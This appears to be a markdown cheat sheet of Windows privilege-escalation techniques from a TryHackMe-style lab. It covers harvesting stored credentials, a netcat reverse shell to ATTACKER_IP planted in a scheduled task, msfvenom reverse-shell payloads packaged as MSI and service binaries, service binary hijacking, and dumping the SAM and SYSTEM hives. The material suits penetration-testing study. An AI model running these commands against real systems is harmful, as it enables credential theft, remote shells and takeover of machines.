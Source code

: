 # Windows Privilege Escalation

Notes
```powershell
type = cat
```

## Unattended Windows Installations

-   `C:\Unattend.xml`
-   `C:\Windows\Panther\Unattend.xml`
-   `C:\Windows\Panther\Unattend\Unattend.xml`
-   `C:\Windows\system32\sysprep.inf`
-   `C:\Windows\system32\sysprep\sysprep.xml`

```powershell
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

## Powershell History

```CMD 
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Note:** The command above will only work from cmd.exe, as Powershell won't recognize `%userprofile%` as an environment variable. To read the file from Powershell, you'd have to replace `%userprofile%` with `$Env:userprofile`

## Saved Windows Credentials

```powershell
cmdkey /list
```

```powershell
runas /savecred /user:admin cmd.exe
```

## IIS Configuration

-   `C:\inetpub\wwwroot\web.config`
-   `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`

Here is a quick way to find database connection strings on the file:

```powershell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

```powershell
type C:\inetpub\wwwroot\web.config | findstr connectionString
```

## Retrieve Credentials from Software: PuTTY

To retrieve the stored proxy credentials, you can search under the following registry key for Proxy Password with the following command:

```powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

## Scheduled Tasks

Task
```powershell
C:\> schtasks /query /tn vulntask /fo list /v
```

File Permissions
```powershell
C:\> icacls c:\tasks\schtask.bat
```

Reverse Shell
```powershell
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

Run Task
```powershell
C:\> schtasks /run /tn vulntask
```

## AlwaysInstallElevated

Requires two registry values to be set
```powershell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

msfvenom
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.220.190 LPORT=LOCAL_PORT -f msi -o malicious.msi
```
Run the Metasploit Handler module configured accordingly

Run
```powershell
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## Windows Services

**Service Control Manager** (SCM)
```powershell
C:\> sc qc apphostsvc
```

All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`

## Insecure Permissions on Service Executable

Splinterware System Scheduler
```powershell
C:\> sc qc WindowsScheduler
```

```powershell
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
```

```shell
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4445 -f exe-service -o rev-svc.exe
```

Grant full permissions to the Everyone group
```powershell
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

Restart Service
```powershell
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```
**Note:** PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.

## Unquoted Service Paths

Proper quotation
```powershell
C:\> sc qc "vncserver"
```

Without proper quotation
```powershell
sc qc "disk sorter enterprise"
```

## Insecure Service Permissions

[Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) 
```powershell
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
```

```powershell
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

## Windows Privileges

```powershell
whoami /priv
```

[Windows Privilege Constants (Authorization)](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
[Priv2Admin](https://github.com/gtworek/Priv2Admin)

## SeBackup / SeRestore

To backup the SAM and SYSTEM hashes, we can use the following commands:

```powershell
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
```

```powershell
C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
```

